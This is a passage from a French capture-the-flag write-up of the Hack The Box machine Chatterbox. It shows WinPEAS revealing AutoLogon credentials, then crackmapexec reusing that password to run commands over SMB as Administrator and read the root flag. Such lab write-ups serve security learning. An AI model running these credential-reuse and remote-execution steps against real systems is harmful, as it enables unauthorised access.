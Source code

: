Un déplacement sur le desktop de l'utilisateur: le flag est là, comme attendu.

---
### Devenons root

Et là... J'ai pas trop d'idées. Je fais un peu le tour du système, je ne vois pas grand chose. Un petit WinPEAS ? Aller.

Bingo.

```powershell
����������͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  Alfred
    DefaultPassword               :  Welcome1!
```

Bon, c'est mon utilisateur actuel, certe, mais ça risque de me permettre de tenter quelques trucs sur le SMB qui semble ouvert.

```bash
┌──(pak㉿kali)-[~]
└─$ crackmapexec smb 10.10.10.74 -u Alfred -p 'Welcome1!'       
SMB         10.10.10.74     445    CHATTERBOX       [*] Windows 7 Professional 7601 Service Pack 1 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True)
SMB         10.10.10.74     445    CHATTERBOX       [+] Chatterbox\Alfred:Welcome1! 
                                                                                                                                             
┌──(pak㉿kali)-[~]
└─$ crackmapexec smb 10.10.10.74 -u Administrator -p 'Welcome1!'
SMB         10.10.10.74     445    CHATTERBOX       [*] Windows 7 Professional 7601 Service Pack 1 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True)
SMB         10.10.10.74     445    CHATTERBOX       [+] Chatterbox\Administrator:Welcome1! (Pwn3d!)
```

AH ! D'accord. Bah je n'y croyais pas forcément, mais il s'agit de password-reuse. Je suis root.

```bash
┌──(pak㉿kali)-[~]
└─$ crackmapexec smb 10.10.10.74 -u Administrator -p 'Welcome1!' -x 'dir C:\Users\Administrator\Desktop'
SMB         10.10.10.74     445    CHATTERBOX       [*] Windows 7 Professional 7601 Service Pack 1 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True)
SMB         10.10.10.74     445    CHATTERBOX       [+] Chatterbox\Administrator:Welcome1! (Pwn3d!)
SMB         10.10.10.74     445    CHATTERBOX       [+] Executed command 
SMB         10.10.10.74     445    CHATTERBOX       Volume in drive C has no label.
SMB         10.10.10.74     445    CHATTERBOX       Volume Serial Number is 502F-F304
SMB         10.10.10.74     445    CHATTERBOX       
SMB         10.10.10.74     445    CHATTERBOX       Directory of C:\Users\Administrator\Desktop
SMB         10.10.10.74     445    CHATTERBOX       
SMB         10.10.10.74     445    CHATTERBOX       12/10/2017  07:50 PM    <DIR>          .
SMB         10.10.10.74     445    CHATTERBOX       12/10/2017  07:50 PM    <DIR>          ..
SMB         10.10.10.74     445    CHATTERBOX       09/07/2023  08:25 PM                34 root.txt
SMB         10.10.10.74     445    CHATTERBOX       1 File(s)             34 bytes
SMB         10.10.10.74     445    CHATTERBOX       2 Dir(s)   3,311,423,488 bytes free
                                                                                                                                             
┌──(pak㉿kali)-[~]
└─$ crackmapexec smb 10.10.10.74 -u Administrator -p 'Welcome1!' -x 'type C:\Users\Administrator\Desktop\root.txt'
SMB         10.10.10.74     445    CHATTERBOX       [*] Windows 7 Professional 7601 Service Pack 1 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True)
SMB         10.10.10.74     445    CHATTERBOX       [+] Chatterbox\Administrator:Welcome1! (Pwn3d!)
SMB         10.10.10.74     445    CHATTERBOX       [+] Executed command 
SMB         10.10.10.74     445    CHATTERBOX       ce4b046919fe296c########8be1
```

:).